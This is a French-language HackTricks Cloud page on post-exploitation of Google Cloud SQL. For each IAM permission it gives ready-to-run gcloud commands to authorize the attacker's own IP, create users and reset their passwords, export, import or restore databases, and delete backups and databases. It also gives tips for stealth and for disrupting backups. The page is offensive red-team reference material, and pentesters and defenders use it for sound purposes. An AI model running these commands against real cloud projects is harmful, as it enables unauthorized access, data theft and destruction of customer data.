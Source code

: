 # GCP - Post-exploitation Cloud SQL

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## Cloud SQL

Pour plus d'informations sur Cloud SQL, consultez :

{% content-ref url="../gcp-services/gcp-cloud-sql-enum.md" %}
[gcp-cloud-sql-enum.md](../gcp-services/gcp-cloud-sql-enum.md)
{% endcontent-ref %}

### `cloudsql.instances.update`, ( `cloudsql.instances.get`)

Pour vous connecter aux bases de données, vous avez simplement besoin d'accéder au port de la base de données et de connaître le **nom d'utilisateur** et le **mot de passe**, il n'y a pas d'exigences IAM. Ainsi, un moyen facile d'obtenir l'accès, en supposant que la base de données a une adresse IP publique, est de mettre à jour les réseaux autorisés et **d'autoriser votre propre adresse IP à y accéder**.
```bash
# Use --assign-ip to make the database get a public IPv4
gcloud sql instances patch $INSTANCE_NAME \
--authorized-networks "$(curl ifconfig.me)" \
--assign-ip \
--quiet

mysql -h <ip_db> # If mysql

# With cloudsql.instances.get you can use gcloud directly
gcloud sql connect mysql --user=root --quiet
```
Il est également possible d'utiliser **`--no-backup`** pour **perturber les sauvegardes** de la base de données.

Étant donné que ce sont les exigences, je ne suis pas complètement sûr à quoi servent les autorisations **`cloudsql.instances.connect`** et **`cloudsql.instances.login**. Si vous le savez, envoyez une PR!

### `cloudsql.users.list`

Obtenez une **liste de tous les utilisateurs** de la base de données :
```bash
gcloud sql users list --instance <intance-name>
```
### `cloudsql.users.create`

Cette permission permet de **créer un nouvel utilisateur à l'intérieur** de la base de données :
```bash
gcloud sql users create <username> --instance <instance-name> --password <password>
```
### `cloudsql.users.update`

Cette permission permet de **mettre à jour un utilisateur à l'intérieur** de la base de données. Par exemple, vous pourriez changer son mot de passe :

{% code overflow="wrap" %}
```bash
gcloud sql users set-password <username> --instance <instance-name> --password <password>
```
{% endcode %}

### `cloudsql.instances.restoreBackup`, `cloudsql.backupRuns.get`

Les sauvegardes pourraient contenir **d'anciennes informations sensibles**, il est donc intéressant de les vérifier.\
**Restaurer une sauvegarde** à l'intérieur d'une base de données :
```bash
gcloud sql backups restore <backup-id> --restore-instance <instance-id>
```
Pour le faire de manière plus discrète, il est recommandé de créer une nouvelle instance SQL et de récupérer les données là-bas au lieu de le faire dans les bases de données actuellement en cours d'exécution.

### `cloudsql.backupRuns.delete`

Cette autorisation permet de supprimer les sauvegardes :
```bash
gcloud sql backups delete <backup-id> --instance <instance-id>
```
### `cloudsql.instances.export`, `storage.objects.create`

**Exporter une base de données** vers un Bucket Cloud Storage pour y accéder à partir de là :
```bash
# Export sql format, it could also be csv and bak
gcloud sql export sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.instances.import`, `storage.objects.get`

**Importer une base de données** (écraser) à partir d'un Bucket Cloud Storage :
```bash
# Import format SQL, you could also import formats bak and csv
gcloud sql import sql <instance-id> <gs://bucketName/fileName>
```
### `cloudsql.databases.delete`

Supprimer une base de données de l'instance de base de données :
```bash
gcloud sql databases delete <db-name> --instance <instance-id>
```
{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}
